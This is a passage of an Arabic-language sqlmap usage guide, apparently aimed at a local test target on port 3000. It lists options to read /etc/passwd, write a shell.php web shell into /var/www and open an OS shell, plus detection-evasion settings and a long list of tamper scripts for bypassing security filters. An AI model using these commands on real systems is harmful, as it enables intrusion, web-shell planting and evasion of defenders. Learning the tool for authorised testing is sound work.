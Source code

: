 ### 🗂️ **ملفات النظام:**
```bash
# قراءة الملفات
--file-read="/etc/passwd"

# كتابة الملفات
--file-write="shell.php" --file-dest="/var/www/shell.php"

# تنفيذ أوامر النظام (إذا كان متاحاً)
--os-shell
```

---

## 🛡️ **تجنب الاكتشاف**

### 1. **تقنيات التمويه:**
```bash
# تغيير User-Agent
--random-agent

# تأخير بين الطلبات
--delay=2

# استخدام Proxy
--proxy="http://127.0.0.1:8080"

# تشفير البيانات
--tamper=space2comment,charencode
```

### 2. **Tamper Scripts:**
```bash
# تجنب فلاتر الأمان
--tamper=apostrophemask,apostrophenullencode,base64encode,between,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

---

## 📋 **تحليل النتائج**

### 🔍 **ملفات الإخراج:**
```bash
# مجلد النتائج
~/.local/share/sqlmap/output/localhost_3000/

# ملفات السجل
~/.local/share/sqlmap/output/localhost_3000/log

# البيانات المستخرجة
~/.local/share/sqlmap/output/localhost_3000/dump/

# جلسة العمل
~/.local/share/sqlmap/output/localhost_3000/session.sqlite
```
